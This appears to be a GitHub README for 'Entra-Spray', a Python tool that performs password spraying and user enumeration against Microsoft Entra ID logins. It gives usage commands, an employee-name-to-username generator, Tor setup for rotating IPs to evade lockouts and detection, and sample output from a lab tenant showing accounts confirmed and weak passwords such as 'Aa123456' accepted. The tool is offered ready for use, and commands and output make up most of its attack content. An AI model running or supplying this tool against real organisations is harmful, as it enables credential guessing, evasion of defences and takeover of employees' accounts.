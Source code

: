 # Entra-Spray
Python tool that allows you to perform Password Spray and User Enumeration tests against Entra ID, with Microsoft login service (login.microsoftonline.com).

The tool recreates the real Microsoft login flow to check:
1. Whether a user exists in Entra ID
2. Whether the password is correct
3. Whether there is a reference to a Federated server

## Main capabilities:
-  Argument (-Check) for checking if user identity exsit in Tenant (after muliple requests it might be False Positive)
-  Argument (-ProxyTor) for route all traffic vit TOR (renew ip after every 4 min..) - This feature comes to solve the problem of False Positive
   Settings adjustment required before using this argument
- Argument (-firstname) and (-lastname) and (-tenantname) for make combination from employee's name until finding the vaild user

### Install:

```bash
pip install httpx
pip install httpx[http2]
pip install httpx[socks]
pip install stem
```

```python
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file -pass password | path-to-passwords-file  [-check] [-ProxyTor] # authentication to Microsoft
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file  [-check] [-ProxyTor] # Just for user validation
Entra-Spray.py [-h] -firstname Shaked -lastname Wiessman -tenantname Shak.com [-ProxyTor] # for Finding the vaild combination
```

Using UserName-Combain.py:
```python
UserName-Combain.py -input names.txt -output username.txt -tenantname @shak.com -style firstl | first | last | firstlast | first.last | last.first | lastfirst | firstL | lastF | firstL2 | firstL3 | lastF2 | lastF3 | fl | lf | l.first | f.last | first.l | last.f | all 
```

### Usage:

the tenant and the upns is a part of a LAB enviroment in Entra ID :]

#### Checking If User Exist:
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -check

[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.comis exists
[✗] Username: dan@entraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists


----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Checking If User Exist with TOR routing (-proxytor flag):
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}    <--
[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.com is exists
[✗] Username: dan@mentraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack:
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456'

[-] Failed to authenticate with shoshi@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured   <--
[-] Failed to authenticate with normuser@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[-] Failed to authenticate with shakedwiessman@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack with '-check' flag:
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check

[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured   <--
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack with '-check' flag and with TOR routing:
The script will check if:
- The user is required to have MFA but has not yet set it up
- The user is required to have MFA
- The user is required to change their password
  
```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}   <--
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured   <--
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Bb123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"110.22.66.190"}   <--
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[✓] User shakedwiessman@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Bb123456, MFA required   <--

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
(Entra-Spray) root@Machine# python3 Entra-Spray.py -user list-of-usernames.txt -password 'Cc123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.172.188.113"}   <--
[✓] User shoshi@entraspraytenant.onmicrosoft.com is exist, and Password needs updating: Cc123456   <--
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

### Usage UserName-Combain.py:
```bash
(Entra-Spray) root@Machine# cat names.txt

shaked wiessman
israel israeli
ran danker
dani kushmaro
idan amedi
```
```python3
(Entra-Spray) root@Machine# python3 UserName-Combain.py -input names.txt -output usernames.txt -tenant '@entraspraytenant.onmicrosoft.com' -style firstlast

shakedwiessman@entraspraytenant.onmicrosoft.com
israelisraeli@entraspraytenant.onmicrosoft.com
randanker@entraspraytenant.onmicrosoft.com
danikushmaro@entraspraytenant.onmicrosoft.com
idanamedi@entraspraytenant.onmicrosoft.com
```

## Usage with TOR:

### Install:

```bash
sudo apt update
sudo apt install torsocks -y
sudo apt install libtorsocks0 -y
```


1) Start TOR:

  ```bash
  sudo systemctl start tor@default
  ```

2) open /etc/tor/torrc file and add:

  ```bash
  ControlPort 9051
  CookieAuthentication 1
  ```

3) Create symlink:

  ```bash
  sudo ln -s /usr/lib/x86_64-linux-gnu/torsocks/libtorsocks.so /usr/lib/x86_64-linux-gnu/libtorsocks.so
  ```

4) Restart TOR:

  ```bash
  sudo systemctl restart tor@default
  ```

5) Check if TOR is working:
  ```bash
  netstat -tulpen | grep 9050
  torsocks curl https://api.ipify.org
  torsocks curl https://check.torproject.org | grep -i "Congratulations"
  ```

